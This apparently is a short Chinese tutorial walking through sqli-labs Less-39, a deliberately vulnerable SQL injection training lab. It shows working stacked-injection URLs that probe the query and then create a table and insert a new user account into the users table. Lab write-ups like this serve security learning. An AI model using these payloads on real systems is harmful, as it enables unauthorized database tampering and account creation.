




# Less - 39

---

# 通关教程

---

## 1、判断闭合方式

---

```http
http://192.168.23.128/sqli-labs/Less-39/?id=1'
```

​​

根据错误显示判断为数字型注入。这里我们就不讲使用union注入的方法，前面的关卡讲了很多union注入的方法，我们直接使用堆叠注入攻击

---

## 2、创建一个表

---

```http
http://192.168.23.128/sqli-labs/Less-39/?id=1;create table test like users;--+
```

​​

​​

---

## 3、创建一个新用户

---

```http
http://192.168.23.128/sqli-labs/Less-39/?id=1;insert into users values(18,'cmx','cmx');--+
```

​​

​​
